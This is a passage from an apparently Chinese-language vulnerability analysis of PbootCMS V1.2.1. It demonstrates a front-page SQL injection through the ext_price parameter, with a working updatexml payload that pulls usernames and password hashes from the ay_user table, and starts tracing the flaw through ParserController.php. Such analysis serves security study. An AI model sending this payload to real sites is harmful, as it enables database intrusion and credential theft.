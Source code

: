 根据6.0可以看到带入了进入了 insert 那么我们传的二维数组刚好可以控制key 带入数据库查询引发注入.

## 0X01.3 前台首页注入

0x08.3.1 漏洞演示
url:

```
http://127.0.0.1/cms/PbootCMS-V1.2.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23=123 
```

![image](img/02442481a507d6ca2d14831520700b13.png)

### 0x01.3.2 漏洞解读

文件地址：PbootCMS-V1.2.1\apps\home\controller\ParserController.php
方法：index(

```
// 首页 骚操作 注入
    // parserAfter -> parserSpecifyListLabel
    public function index()
    {
        $content = parent::parser('index.html'); // 框架标签解析
        $content = $this->parser->parserBefore($content); // CMS公共标签前置解析
        $content = $this->parser->parserPositionLabel($content, - 1, '首页', SITE_DIR . '/'); // CMS当前位置标签解析
        $content = $this->parser->parserSpecialPageSortLabel($content, 0, '', SITE_DIR . '/'); // 解析分类标签
        $content = $this->parser->parserAfter($content); // CMS公共标签后置解析
        $this->cache($content, true);
    } 
```

文件地址：apps\home\controller\ParserController.php
方法：parserAfter()

```
跟进 $content = $this->parser->parserAfter($content); 这个方法 
```
